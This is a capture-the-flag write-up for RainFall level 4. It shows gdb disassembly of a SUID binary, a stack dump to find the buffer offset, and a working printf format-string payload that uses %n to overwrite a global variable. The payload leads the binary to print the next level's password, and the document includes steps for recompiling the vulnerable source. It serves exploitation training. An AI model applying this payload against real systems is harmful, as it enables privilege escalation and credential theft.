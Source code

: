 # Level 4

## Vulnerability

Printf format string exploit

## Context

We find a binary with owner level5 and SUID.
```
level4@RainFall:~$ ls -l
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
The binary seems to do the same thing as in previous levels, read from stdin, and print what is given.
```
level4@RainFall:~$ ./level4
oh hi!
oh hi!
```

## Solution

Investigating with gdb, we find fgets(), unfortunately protected against buffer overflow attack. But printf() may provide our vulnerability, similar to the last level.
```
level4@RainFall:~$ gdb -q level4
...
(gdb) disas main
...
   0x080484ad <+6>:	call   0x8048457 <n>
...
(gdb) disas n
...
...
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>  ; call fgets()
...
   0x08048488 <+49>:	call   0x8048444 <p>          ; call function p() which calls printf()
   0x0804848d <+54>:	mov    0x8049810,%eax	      ; load value of global variable "m" at 0x8049810
   0x08048492 <+59>:	cmp    $0x1025544,%eax        ; compare global variable "m" with 0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>       ; if false jump past system() call
   0x08048499 <+66>:	movl   $0x8048590,(%esp)      ; load argument "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:	call   0x8048360 <system@plt> ; call system("/bin/cat /home/user/level5/.pass")
...
(gdb) disas p
...
   0x08048450 <+12>:	call   0x8048340 <printf@plt> ; call printf()
```
After calling printf() the binary compares the value of global variable ```m``` at ```0x8049810``` to ```0x1025544``` (16930116 in decimal).
If true a call to system() launches a shell.

Let's use the printf() format string exploit to change the value of variable ```m``` to ```0x1025544```.

First let's print the stack to find the address of the variable we wish to modify.
```
level4@RainFall:~$ (python -c 'print "BBBB" + " %x" * 13' ; cat -) | ./level4
BBBB b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 42424242 20782520
```
We find buffer BBBB (42424242) in 12th position.

Our target value ```16930116``` is too long for the ```%n``` exploit as used in the last level (%n stores only 4 bytes).
However, we can dynamically specify field width with modifier ```%d```  e.g. ```%16930116d```.

So we build our format string exploit:
1. Address of glabal variable ```m``` (4 bytes)          - "\x10\x98\x04\x08"
2. 16930112 bytes padding using ```%d```                 - "%16930112d"
3. store n bytes printed in 12th argument with ```%n```  - "%12$n"

When we feed our format string attack to the binary it opens a shell and shows us the level5 password.
```
level4@RainFall:~$ (python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | ./level4
...
                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Recreate Exploited Binary

As user level5, in /tmp, create and compile level4_source.c.
```
level5@RainFall:/tmp$ gcc level4_source.c -fno-stack-protector -o level4_source
```
Edit permissions including suid, then move the binary to home directory.
```
level5@RainFall:/tmp$ chmod u+s level4_source; chmod +wx ~; mv level4_source ~
```
Exit back to user level4, then run the source with an updated address of global variable ```m```.
```
level5@RainFall:/tmp$ exit
exit
level4@RainFall:~$ (python -c 'print "\x28\xa0\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | /home/user/level5/level4_source
```
